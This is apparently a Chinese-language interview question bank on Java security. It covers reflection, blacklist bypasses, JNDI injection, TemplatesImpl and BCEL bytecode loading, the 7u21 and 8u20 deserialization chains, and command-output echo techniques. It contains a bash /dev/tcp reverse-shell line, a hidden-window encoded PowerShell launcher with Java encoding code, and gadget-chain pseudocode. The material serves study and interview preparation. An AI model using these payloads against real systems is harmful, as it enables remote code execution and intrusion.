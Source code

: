 ## JDK

- Java反射做了什么事情（★）

反射是根据字节码获得类信息或调用方法。从开发者角度来讲，反射最大的意义是提高程序的灵活性。Java本身是静态语言，但反射特性允许运行时动态修改类定义和属性等，达到了动态的效果



- Java反射可以修改Final字段嘛（★★）

可以做到，参考以下代码

```java
field.setAccessible(true);
Field modifiersField = Field.class.getDeclaredField("modifiers");
modifiersField.setAccessible(true);
modifiersField.setInt(field, field.getModifiers() & ~Modifier.FINAL);
field.set(null, newValue);
```



- 传统的反射方法加入黑名单怎么绕（★★★）

可以使用的类和方法如下（参考三梦师傅）

```java
ReflectUtil.forName
BytecodeDescriptor
ClassLoader.loadClass
sun.reflect.misc.MethodUtil
sun.reflect.misc.FieldUtil
sun.reflect.misc.ConstructorUtil
MethodAccessor.invoke
JSClassLoader.invoke
JSClassLoader.newInstance
```



- Java中可以执行反弹shell的命令吗（★★）

可以执行，但需要对命令进行特殊处理。例如直接执行这样的命令：`bash -i >& /dev/tcp/ip/port 0>&1`会失败，简单来说因为`>`符号是重定向，如果命令中包含输入输出重定向和管道符，只有在`bash`下才可以，使用Java执行这样的命令会失败，所以需要加入`Base64`

```shell
bash -c {echo,base64的payload}|{base64,-d}|{bash,-i}
```

针对`Powershell`应该使用以下的命令

```shell
powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc 特殊的Base64
```

这个特殊的Base64和普通Base64不同，需要填充0，算法如下

```java
public static String getPowershellCommand(String cmd) {
    char[] chars = cmd.toCharArray();
    List<Byte> temp = new ArrayList<>();
    for (char c : chars) {
        byte[] code = String.valueOf(c).getBytes(StandardCharsets.UTF_8);
        for (byte b : code) {
            temp.add(b);
        }
        temp.add((byte) 0);
    }
    byte[] result = new byte[temp.size()];
    for (int i = 0; i < temp.size(); i++) {
        result[i] = temp.get(i);
    }
    String data = Base64.getEncoder().encodeToString(result);
    String prefix = "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc ";
    return prefix + data;
}
```



- 假设`Runtime.exec`加入黑名单还有什么方式执行命令（★★）

其实这个问题有点类似`JSP Webshell`免杀

大致方法有这些：使用基本的反射，ProcessImpl和ProcessBuilde，JDNI和LDAP注入，TemplatesImpl，BCEL，BeansExpression，自定义ClassLoader，动态编译加载，ScriptEngine，反射调用一些native方法，各种EL（SPEL和Tomcat EL等）



- RMI和LDAP类型的JNDI注入分别在哪个版本限制（★）

RMI的JNDI注入在8u121后限制，需要手动开启`com.sun.jndi.rmi.object.trustURLCodebase`属性

LDAP的JNDI注入在8u191后限制，需要开启`com.sun.jndi.ldap.object.trustURLCodebase`属性



- RMI和LDAP的限制版本分别可以怎样绕过（★★）

RMI的限制是限制了远程的工厂类而不限制本地，所以用本地工厂类触发

通过`org.apache.naming.factory.BeanFactory`结合`ELProcessor`绕过

LDAP的限制中不对`javaSerializedData`验证，所以可以打本地`gadget`



- 谈谈TemplatesImpl这个类（★★）

这个类本身是JDK中XML相关的类，但被很多`Gadget`拿来用

一般情况下加载字节码都需要使用到ClassLoader来做，其中最核心的`defineClass`方法只能通过反射来调用，所以实战可能比较局限。但JDK中有一个`TemplatesImpl`类，其中包含`TransletClassLoader`子类重写了`defineClass`所以允许`TemplatesImpl`类本身调用。`TemplatesImpl`其中有一个特殊字段`_bytecodes`是一个二维字节数组，是被加载的字节码

通过`newTransformer`可以达到`defineClass`方法加载字节码。而`getOutputProperties`方法（getter）中调用了`newTransformer`方法，也是一个利用链

```text
TemplatesImpl.getOutputProperties()
	TemplatesImpl.newTransformer()
	TemplatesImpl.getTransletInstance()
	TemplatesImpl.defineTransletClasses()
	ClassLoader.defineClass()
	Class.newInstance()
```



- 了解BCEL ClassLoader吗（★）

BCEL的全名应该是Apache Commons BCEL，属于Apache Commons项目下的一个子项目

该类常常用于各种漏洞利用POC的构造，可以加载特殊的字符串所表示的字节码

但是在Java 8u251之后该类从JDK中移除



- 谈谈7U21反序列化（★★★★★）

从`LinkedHashSet.readObject`开始，找到父类`HashSet.readObject`方法，其中包含`HashMap`的类型转换以及`HashMap.put`方法，跟入`HashMap.put`其中对`key`与已有`key`进行`equals`判断，这个`equals`方法是触发后续利用链的关键。但`equals`方法的前置条件必须满足

```java
if (e.hash == hash && ((k = e.key) == key || key.equals(k)))
```

所以这里需要用哈希碰撞，让下一个`key`的哈希值和前一个相等，才可进入第二个条件。而第二个条件中必须让前一个条件失败才可以进去`equals`方法，两个`key`对象不相同是显而易见的

接下来的任务是找到一处能触发`equals`方法的地方

反射创建`AnnotationInvocationHandler`对象，传入`Templates`类型和`HashMap`参数。再反射创建被该对象代理的新对象，根据动态代理技术，代理对象方法调用需要经过`InvocationHandler.invoke`方法，在`AnnotationInvocationHandler`这个`InvocationHandler`的`invoke`方法实现中如果遇到`equals`方法，会进入`equalsImpl`方法，其中遍历了`equals`方法传入的参数`TemplatesImpl`的所有方法并反射调用，通过`getOutputProperties`方法最终加载字节码导致RCE

关于7U21的伪代码如下

```java
Object templates = Gadgets.createTemplatesImpl();
String zeroHashCodeStr = "f5a5a608";
HashMap map = new HashMap();
Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
ctor.setAccessible(true);
InvocationHandler tempHandler = (InvocationHandler) ctor.newInstance(Templates.class, map);
Templates proxy = (Templates) Proxy.newProxyInstance(exp.class.getClassLoader(), templates.getClass().getInterfaces(), tempHandler);
LinkedHashSet set = new LinkedHashSet();
set.add(templates);
set.add(proxy);
map.put(zeroHashCodeStr, templates);
return set;
```

结合调用链

```text
LinkedHashSet.readObject()
  LinkedHashSet.add()/HashMap.put()
      Proxy(Templates).equals()
        AnnotationInvocationHandler.invoke()
          AnnotationInvocationHandler.equalsImpl()
            Method.invoke()
              ...
                TemplatesImpl.getOutputProperties()
```

可以看到伪代码最后在`map`中`put`了某个元素，这是为了处理哈希碰撞的问题。`TemplatesImpl`没有重写`hashcode`直接调用`Object`的方法。而代理对象的`hashcode`方法也是会先进入`invoke`方法的，跟入`hashCodeImpl`方法看到是根据传入参数`HashMap`来做的，累加每一个`Entry`的`key`和`value`计算得出的`hashcode`。通过一些运算，可以找到符合条件的碰撞值



- 谈谈8U20反序列化（★★★★★）

这是7U21修复的绕过（作者对该问题了解较浅，面试没有被问到过）

在`AnnotationInvocationHandler`反序列化调用`readObject`方法中，对当前`type`进行了判断。之前POC中的`Templates`类型会导致抛出异常无法继续。使用`BeanContextSupport`绕过，在它的`readObject`方法中调用`readChildren`方法，其中有`try-catch`但没有抛出异常而是`continue`继续

所以这种情况下，就算之前的反序列化过程中出错，也会继续进行下去。但想要控制这种情况，不可以用正常序列化数据，需要自行构造畸形的序列化数据



- 了解缩小反序列化Payload的手段吗（★★★）

首先最容易的方案是使用Javassist生成字节码，这种情况下生成的字节码较小。进一步可以用ASM删除所有的LineNumber指令，可以更小一步。最终手段可以分块发送多个Payload最后合并再用URLClassLoader加载



- 谈谈实战中命令执行有哪些回显的办法（★★★★）

首先想到的办法是`dnslog`等技术进行外带，但必须出网，有限制

然后类似内存马的思路，针对指定中间件找`response`对象写入执行结果

尝试写文件，往`web`目录下写，例如`xx.html`可以访问到即可

将命令执行结果抛出异常，然后用`URLClassLoader`加载，达到报错回显

Y4er师傅提到的自定义类加载器配合RMI的一种方式



- 有没有了解过针对`linux`的通杀的回显方式（★★★★）

获取本次`http`请求用到`socket`的文件描述符，然后往文件描述符里写命令执行的结果

但鸡肋的地方在于需要确定源端口，才可以使用命令查到对应的文件描述符，存在反代可能有问题



- 是否存在针对`windows`的通杀的回显方式（★★★★）

原理类似`linux`的通杀回显，在`windows`中`nio/bio`中有类似于`linux`文件描述符这样的句柄文件

遍历`fd`反射创建对应的文件描述符，利用`sun.nio.ch.Net#remoteAddress`确认文件描述符有效性，然后往里面写数据实现回显